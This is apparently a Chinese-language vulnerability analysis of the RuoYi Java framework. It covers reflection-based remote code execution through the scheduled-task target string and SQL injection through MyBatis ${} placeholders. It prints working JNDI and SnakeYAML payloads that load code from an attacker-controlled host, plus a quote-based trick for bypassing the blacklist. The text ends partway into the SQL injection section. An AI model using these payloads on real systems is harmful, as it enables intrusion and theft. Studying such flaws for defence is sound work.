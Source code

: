 ```java
    }
```
调用方法的代码是典型的反射
```java
    private static void invokeMethod(Object bean, String methodName, List<Object[]> methodParams)
            throws NoSuchMethodException, SecurityException, IllegalAccessException, IllegalArgumentException,
            InvocationTargetException
    {
        if (StringUtils.isNotNull(methodParams) && methodParams.size() > 0)
        {
            Method method = bean.getClass().getDeclaredMethod(methodName, getMethodParamsType(methodParams));
            method.invoke(bean, getMethodParamsValue(methodParams));
        }
        else
        {
            Method method = bean.getClass().getDeclaredMethod(methodName);
            method.invoke(bean);
        }
    }
```
那么很直接的思路就是invokeTarget传一个恶意的类和方法，然后造成RCE。但是这个类对象要么在Spring容器中注册过，要么就反射newInstance获取（这种要求该类具备无参构造方法）。但是后续的反射代码中其实存在一些限制，一个是getDeclaredMethod后并没有加入`.setAccessible(true)`，所以调用的类方法不能是private的。方法的参数类型也进行了限制。

然后根据这些限制，网上常用的三种poc如下
```
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://ip:port/yaml-payload.jar"]]]]')
org.springframework.jndi.JndiLocatorDelegate.lookup('rmi://ip:port/Evil')
javax.naming.InitialContext.lookup('ldap://ip:port/#Evil')
```
这三种都需属于出网利用方式，对于不出网利用的思路参照SnakeYaml的不出网思路。SnakeYaml不出网思路是先利用输出流写jar文件，然后利用ScriptEngineManager对生成的本地jar文件进行加载。但是若依对`,`会进行分割处理，也就限制了写文件的poc。但是如果可以通过文件上传传入jar文件，还可以利用ScriptEngineManager加载jar文件
```
org.yaml.snakeyaml.Yaml.load('!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["file://文件的绝对路径"]]]]')
```
后来的版本中，若依增加了黑名单对传入的字符串进行限制，不允许包含`rmi/http(s)/ldap`等字段。但是`file/ftp/ldaps`这些协议还可以利用。另外由于在获取方法参数时，代码对单引号会进行处理（替换为空），这样可以利用`'r'm'i`的方式来绕过黑名单

后续的4.7.2版本，若依对黑名单进行了升级，直接将`java.net.URL、javax.naming.InitialContext、org.yaml.snakeyaml、org.springframework.jndi`列入了黑名单。一种配置文件的绕过思路参考：https://xz.aliyun.com/t/10957

4.7.3版本，若依改采用白名单的方式，只允许调用com.ruoyi包中的类。

对于Spring中对象的利用，可以参考这篇思路：https://xz.aliyun.com/t/11336#toc-6

### sql注入
Mybatis配置一般用`#{}`，类似PreparedStatement的占位符效果，可以防止SQL注入，而RuoYi则是采用了`${}`造成了SQL注入，定位`SysDeptMapper.xml`。该文件中包含两处`${}`。Mybatis的.xml配置文件都实现了一个对应接口（一般与xml文件同名）的功能。所以`SysDeptMapper.xml`对应`SysDeptMapper`接口

`SysDeptMapper.xml`中的两处`${}`简略如下，id对应着接口方法，向上查找两个方法的调用入口分别是`/system/dept/list/`和`/system/dept/edit`。与`${params.dataScope}`类似的还有`SysRoleMapper.xml`文件中的`selectRoleList`方法，对应`/system/role/list`
```xml
<select id="selectDeptList" parameterType="SysDept" resultMap="SysDeptResult">
      <include refid="selectDeptVo"/>
      where d.del_flag = '0' ${params.dataScope} order by d.parent_id, d.order_num
</select>

<update id="updateDeptStatus" parameterType="SysDept">
 	    update sys_dept where dept_id in (${ancestors})
</update>
```
（1）注入点为`params.dataScope`，没有将结果回显的代码，所以可以采用报错注入的方式，如下
```
```